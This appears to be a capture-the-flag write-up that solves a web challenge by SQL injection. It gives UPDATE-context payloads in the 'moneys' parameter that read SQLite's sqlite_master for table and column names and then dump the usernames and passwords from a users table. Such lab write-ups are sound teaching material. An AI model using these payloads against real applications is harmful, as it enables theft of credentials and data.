




# Startup Company \(180\)

## Problem

Do you want to fund my startup? 



## Solution



The query probably looks something like:

```sql
UPDATE some_table
SET 
    latest_contribution = <POST.moneys>
WHERE
    user_id = <SESSION.user_id>
```

So we can get information displayed in the green text by manipulating the `moneys=` parameter:



The SQLite version is 3.22.0:


### Getting Table Names

`captcha=23&moneys=' || (SELECT GROUP_CONCAT(tbl_name) FROM sqlite_master)`

Note that `GROUP_CONCAT` is required to concatenate all the `tbl_name` values into a single string. Otherwise, we might miss out on some valuable data.


### Getting Column Names

`captcha=53&moneys='|| (SELECT GROUP_CONCAT(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='startup_users');`


### Dumping Data

`captcha=36&moneys='|| (SELECT GROUP_CONCAT(nameuser) FROM startup_users);`



Indeed, our flag is hidden in the `wordpass` value for the `the_real_flag` user!

`captcha=66&moneys='|| (SELECT GROUP_CONCAT(wordpass) FROM startup_users);`




